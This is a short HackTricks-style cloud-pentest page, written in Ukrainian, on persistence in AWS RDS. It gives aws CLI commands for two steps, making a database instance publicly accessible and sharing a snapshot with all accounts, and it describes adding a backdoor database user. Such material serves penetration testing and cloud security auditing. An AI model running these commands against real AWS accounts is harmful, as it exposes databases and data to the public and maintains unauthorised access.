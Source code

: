 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Для отримання додаткової інформації перегляньте:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Зробити екземпляр загальнодоступним: `rds:ModifyDBInstance`

Зловмисник з цим дозволом може **змінити існуючий екземпляр RDS, щоб дозволити загальнодоступний доступ**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Створити адміністратора користувача в базі даних

Зловмисник може просто **створити користувача в базі даних**, тому навіть якщо пароль майстер-користувача буде змінено, він **не втратить доступ** до бази даних.

### Зробити знімок публічним
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
